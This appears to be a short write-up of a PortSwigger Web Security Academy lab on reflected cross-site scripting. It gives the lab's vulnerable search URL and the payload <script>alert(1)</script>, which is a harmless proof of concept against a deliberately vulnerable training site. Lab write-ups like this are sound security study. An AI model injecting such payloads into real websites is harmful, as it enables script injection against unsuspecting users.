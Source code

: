 # Lab: Reflected XSS into HTML context with nothing encoded

# [Lab Link](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) 

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function. 


# Vulnerable  parameter
```plaintext
https://0a4b00c60486e60c8116345a00d700b9.web-security-academy.net/?search= 
```

# Payload
```js
<script>alert(1)</script>

```

![alt text](https://github.com/Ruhanyat-994/XSS/blob/master/Photos/image-1.png?raw=true)  